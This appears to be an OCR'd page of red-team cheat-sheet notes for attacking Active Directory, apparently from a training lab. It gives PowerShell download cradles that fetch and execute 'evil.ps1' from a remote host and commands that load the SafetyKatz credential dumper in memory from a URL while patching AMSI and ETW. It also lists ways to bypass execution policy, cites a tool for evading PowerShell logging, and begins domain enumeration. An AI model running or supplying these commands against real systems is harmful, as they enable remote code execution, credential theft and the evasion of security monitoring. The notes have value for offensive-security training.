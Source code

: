 `iex (iwr 'http://192.168.230.1/evil.ps1')`

`$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
`
`$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()`

# (https://github.com/Flangvik/NetLoader) to deliver our binary payloads. It can be used to load binary from filepath or URL and patch AMSI & ETW while executing.
`C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe`
# We also have AssemblyLoad.exe that can be used to load the Netloader in-memory from a URL which then loads a binary from a filepath or URL.
C:\Users\Public\AssemblyLoad.exe http://192.168.100.X/Loader.exe -path http://192.168.100.X/SafetyKatz.exe

# Several ways to bypass execution policy

`powershell–ExecutionPolicy bypass`
`powershell–c <cmd>`
`powershell–encodedcommand`
`$env:PSExecutionPolicyPreference="bypass"`

# The ActiveDirectory PowerShell module (MS signed and works even in PowerShell CLM)
https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps
https://github.com/samratashok/ADModule
`Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll`
`Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1`

# Evade powershell logging and AMSI bypass (https://github.com/OmerYa/Invisi-Shell)
-> Patches AMSI
-> System wide transcription
-> Script block logging

## Domain Enumeration

# Get current domain
Get-Domain (PowerView)
Get-ADDomain (ActiveDirectory Module)
